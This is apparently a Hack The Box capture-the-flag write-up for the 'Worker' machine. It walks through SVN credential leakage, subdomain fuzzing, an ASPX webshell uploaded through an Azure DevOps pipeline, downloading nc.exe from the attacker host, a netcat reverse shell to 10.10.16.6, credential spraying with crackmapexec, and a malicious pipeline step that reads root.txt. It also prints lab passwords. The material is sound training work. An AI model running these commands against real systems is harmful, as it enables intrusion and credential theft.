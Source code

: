 # [Worker](https://app.hackthebox.com/machines/worker)

```bash
nmap -p- --min-rate 10000 10.10.10.203 -Pn
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,3690,5985 10.10.10.203
```

![Alt text](img/image-1.png)


From port (3690), it means `SVN` open, let's enumerate this service.

What is SVN=> Subversion is used for maintaining current and historical versions of projects. Subversion is an open source centralized version control system. It's licensed under Apache. It's also referred to as a software version and revisioning control system. Default port: 3690.


```bash
svn checkout svn://10.10.10.203
```

![Alt text](img/image-2.png)


```bash
svn log
```

![Alt text](img/image-3.png)


Here, we can go back to **last commits**, via `-r` option,.

```bash
svn up -r1
```

![Alt text](img/image-4.png)


Let's go to second one.
```bash
svn up -r2
```

![Alt text](img/image-5.png)


Let's read this file `deploy.ps1` powershell script.

![Alt text](img/image-6.png)


From  here, we grab **sensitive credentials**.

nathen: wendel98


I add this ip address into '/etc/hosts' file as '**worker.htb**'


Let's do subdomain enumeration via `wfuzz`.

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.203 -H 'Host: FUZZ.worker.htb' --hh 703
```

![Alt text](img/image-7.png)


I add all subdomains into my '/etc/hosts' file.


Let's access devops.worker.htb by entering grabbed credentials.

![Alt text](img/image-8.png)

I take `alpha` one from here, as because I can access here from website (enumeration via `wfuzz` command)

![Alt text](img/image-9.png)


Our target application is here.

![Alt text](img/image-10.png)


From response headers, I see that is 'X-Powered-By: ASP.NET' , that's why I need to upload malicious `.aspx` file.



Let's create a branch and upload our webshell, then deployment.

1.Create a branch

![Alt text](img/image-11.png)


2.Upload a webshell.

![Alt text](img/image-12.png)

![Alt text](img/image-13.png)


3.Go to Pipelines for deployment.

![Alt text](img/image-14.png)


Final result is here.

![Alt text](img/image-15.png)

![Alt text](img/image-16.png)


Let's add reverse shell here.

1.First, open http server to serve `nc` binary.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


![Alt text](img/image-18.png)

2.Then, run a below command on webshell to download `nc` binary.
```bash
powershell -c wget 10.10.16.6:8080/nc.exe -outfile \programdata\nc.exe
```

![Alt text](img/image-17.png)


3.Then, write your reverse shell command.
```bash
\programdata\nc.exe -e cmd.exe 10.10.16.6 1337
```

![Alt text](img/image-19.png)


I got reverse shell from port (1337).

![Alt text](img/image-20.png)


I cannot find anything from C: disk, let's know another disks via below command.
```bash
wmic logicaldisk get deviceid, volumename, description
```

And I switched into 'W:' disk.

![Alt text](img/image-21.png)


I find sensitive usernames and passwords credentials for a file 'passwd' on 'svnrepos/www/conf' directory.

![Alt text](img/image-22.png)


users:
```bash
cat creds.txt | cut -d '=' -f1 > users
```
passwords:
```bash
cat creds.txt | cut -d '=' -f2 | sed 's/[[:space:]]*//g' > passwords
```


Let's do enumeration for this credentials via `crackmapexec` tool.
```bash
crackmapexec winrm 10.10.10.203 -u users -p passwords -d 'worker.htb' --no-bruteforce
```

![Alt text](img/image-23.png)


worker.htb\robisl:wolves11 


Let's connect into machine via `evil-winrm` tool by using grabbed credentials.

```bash
evil-winrm -i 10.10.10.203 -u robisl -p wolves11
```


user.txt

![Alt text](img/image-24.png)


Also, we can join into `devops.worker.htb` via grabbed credentials previously. (robisl:wolves11)

Here, we have 'PartsUnlimited' repository.

![Alt text](img/image-25.png)



We have a privilege to create pipeline and I add malicious scripts into pipeline.

1.Pipelines -> Create a pipeline

2.Select repo.

3.Select starter pipeline

![Alt text](img/image-26.png)


```yaml
trigger:
- master

pool: 'Setup'

steps:
- script: |
    whoami
    type c:\users\administrator\desktop\root.txt
  displayName: 'Pwn all the things'
```

![Alt text](img/image-27.png)


![Alt text](img/image-28.png)


Reminder! You can also change script part with your reverse shell command

Reminder! Don't forget to approve to see results.


root.txt


![Alt text](img/image-29.png)